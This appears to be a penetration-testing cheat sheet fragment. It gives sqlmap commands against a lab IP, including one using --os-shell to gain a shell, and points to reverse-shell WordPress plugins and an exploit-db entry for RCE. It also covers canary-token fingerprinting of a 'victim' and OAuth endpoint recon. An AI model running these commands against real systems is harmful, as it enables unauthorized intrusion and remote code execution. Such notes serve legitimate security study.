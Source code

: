 ### PostgreSQL

use psql in kali

### Find injectable parameters using SQLMAP

```bash
sqlmap --url "http://192.168.204.49/class.php" --data="weight=12&height=2323&age=1211&gender=Male&email=ok%40ok.com" 
```

Once injection point is found, exploit it to dump or get shell

```bash

sqlmap --url "http://192.168.204.49/class.php" --data="weight=12&height=2323&age=1211&gender=Male&email=ok%40ok.com" -p mail-list --os-shell --level=5 --risk=3

```


## hacking wordpress panel RCE

* create own reverse shell plugin https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

* use some pre-made plugin https://www.exploit-db.com/exploits/36374

## Fingerprinting target


### Canary Token

* get victim system info
* generate tracking token 
`https://www.canarytokens.org/generate`
* create `web bug/ URL token`
* send token to target
* when triggered check web hook logs or mail

## OAuth

### Recon

* if login is redirected to other website than it is a strong indication that OAuth is used

* look for indicators of authorization endpoint

`/authorization` endpoint containing query parameters: `client_id, redirect_uri, and response_type`

```bash

# example of auth request (copyright portswigger)

GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=token&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
Host: oauth-authorization-server.com

```
